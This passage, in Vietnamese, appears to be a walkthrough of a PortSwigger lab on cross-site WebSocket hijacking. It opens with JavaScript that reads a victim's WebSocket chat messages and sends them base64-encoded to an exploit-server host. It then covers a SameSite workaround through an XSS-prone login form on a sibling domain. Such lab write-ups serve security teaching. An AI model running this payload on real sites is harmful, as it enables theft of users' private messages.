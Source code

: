         newWebSocket.onopen = function (evt) {
            newWebSocket.send("READY"); 
        }

        newWebSocket.onmessage = function (evt) {
            var message = evt.data;
            fetch("https://exploit-0a9b00b2048b951e82cc1ee0012c00cd.exploit-server.net/exploit?message=" + btoa(message))
        }

Sử dụng hàm fetch() để gửi message đến endpoint được kiểm soát (ở đây là exploit server), đồng thời thêm query param "message" được WebSocket gửi tới, nhưng được mã hóa base64. Thử thêm payload này vào exploit server: 

![img](https://imgur.com/jZg1SQh.png)

Click Deliver exploit to victim và chờ vài giây. Sau đó kiểm tra Access log để kiểm tra: 

![img](https://imgur.com/wh1Ewob.png)

--> Đã có thể xem được 1 message từ nạn nhân. Thử decode message này: 

![img](https://imgur.com/V5oF6dD.png)

Vì SameSite=Strict được set nên chỉ thấy được message cho chat session mới nên cần tìm cách bypass. 

Vì website là 1 blog nên sẽ tìm ra chỗ nào có thể chứa payload, như phần comments, tìm kiếm trong comments xem có field nào dễ bị tấn công không. Ta sẽ chứa payload trong field đó và gửi cho nạn nhân 1 link đến post chứa payload ta đã chèn thông qua cross-site scripting. 

Thử view detail 1 sản phẩm: 

![img](https://imgur.com/zG5vv7J.png)

Không có phần comment, không chèn payload vào comment được. Tìm kiếm xem trong các request có request nào có khả năng store payload không. 

![img](https://imgur.com/F0sU2nM.png)

Tìm thấy thông tin rằng server cho phép truy cập data từ 1 sibling domains khác thông qua Access-Control-Allow-Origin header: *https://cms-0aff007b04d94d5184be83380032000d.web-security-academy.net*

--> Có thể store payload ở domain này.

Thử truy cập domain: 

![img](https://imgur.com/nDIIJAl.png)

Thử check xem login form này có dễ bị tấn công không: 

![img](https://imgur.com/69LVZ3J.png)

![img](https://imgur.com/oD2t33h.png)

--> Dễ bị tấn công. Kiểm tra lại Login request này trong Burp Suite: 
